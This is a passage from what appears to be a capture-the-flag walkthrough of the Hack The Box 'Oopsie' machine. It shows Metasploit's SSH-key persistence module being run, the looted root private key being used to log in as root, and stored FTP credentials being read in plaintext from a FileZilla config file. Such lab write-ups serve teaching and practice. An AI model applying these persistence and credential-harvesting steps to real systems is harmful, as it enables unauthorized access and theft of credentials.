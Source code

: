 		use post/linux/manage/sshkey_persistence
		set session 2
		run
		```
		And then in normal attacker prompt:
		
		```
		sudo chmod 400 /root/.msf4/loot/20200504015710_default_10.10.10.28_id_rsa_480866.txt
		sudo ssh -o "IdentitiesOnly=yes" -i /root/.msf4/loot/20200504015710_default_10.10.10.28_id_rsa_480866.txt root@10.10.10.28
		```
	8. Find loot
		```
		root@oopsie:~/.config/filezilla# cat /root/.config/filezilla/filezilla.xml 
		<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
		<FileZilla3>
		    <RecentServers>
		        <Server>
		            <Host>10.10.10.44</Host>
		            <Port>21</Port>
		            <Protocol>0</Protocol>
		            <Type>0</Type>
		            <User>ftpuser</User>
		            <Pass>mc@F1l3ZilL4</Pass>
		            <Logontype>1</Logontype>
		            <TimezoneOffset>0</TimezoneOffset>
		            <PasvMode>MODE_DEFAULT</PasvMode>
		            <MaximumMultipleConnections>0</MaximumMultipleConnections>
		            <EncodingType>Auto</EncodingType>
		            <BypassProxy>0</BypassProxy>
		        </Server>
		    </RecentServers>
		</FileZilla3>
		```



